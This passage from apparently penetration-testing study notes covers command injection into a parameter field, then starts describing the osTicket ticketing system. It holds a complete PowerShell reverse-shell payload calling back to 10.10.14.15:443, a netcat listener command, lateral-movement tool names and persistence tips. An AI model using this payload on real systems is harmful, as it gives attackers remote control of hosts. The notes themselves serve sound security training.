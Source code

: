 * Output should confirm local admin rights.

### 🛠 Alternative Access Methods

* **RDP**, **WinRM** (evil-winrm), or **Impacket** tools:

  * `wmiexec.py`, `psexec.py`, `smbexec.py`, etc.

## 💡 Optional: Reverse Shell via Injected Command

Example payload for **reverse shell** in parameter field:

```bash
test.txt; powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then start listener:

```bash
sudo nc -lnvp 443
```

## 🔁 Persistence Tips

* Set a **schedule** for the notification to run periodically.
* Useful for re-establishing access during long-term engagements.


---

# 📝 osTicket 

## 📌 What is osTicket?

* **osTicket** is an open-source support ticketing system.
* Used by organizations (schools, companies, government, etc.) to manage customer support inquiries.
* Written in **PHP**, uses **MySQL**, and runs on **Windows or Linux**.
* Integrates support requests from:

  * **Email**
  * **Phone**
  * **Web-based forms**

> Comparable systems: Jira, OTRS, Request Tracker, Spiceworks.


## 🎯 Why osTicket Matters in Assessments
